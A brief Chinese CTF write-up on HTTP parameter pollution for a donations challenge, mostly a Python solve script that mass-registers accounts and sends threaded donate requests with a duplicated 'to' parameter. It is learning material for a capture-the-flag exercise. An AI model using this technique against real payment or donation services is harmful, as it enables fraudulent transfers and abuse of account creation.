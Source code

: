 HTTP的参数污染

大概就是面对多参数的处理问题

具体介绍在这里https://book.hacktricks.xyz/pentesting-web/parameter-pollution

主要是对于多参数的处理方式不太对，一开始一直在想session怎么搞

不得不说别人的代码写的像诗

```python
import os
import requests
from concurrent.futures import ThreadPoolExecutor

url = 'https://donations2-api.challs.umdctf.io'

def make_donation(from_user, to_user):
    s = requests.Session()

    r = s.post(f'{url}/api/register', data=dict(username=from_user, password='password'))
    r = s.post(f'{url}/api/login', data=dict(username=from_user, password='password'))
    r = s.post(f'{url}/api/donate', headers={'Content-Type': 'application/x-www-form-urlencoded'}, data=f'to=lisanalgaib&to={to_user}&currency=1000')

executor = ThreadPoolExecutor(max_workers=16)
for _ in range(100):
    executor.submit(make_donation, 'cyny6667'+os.urandom(4).hex(), 'cyny666')
```

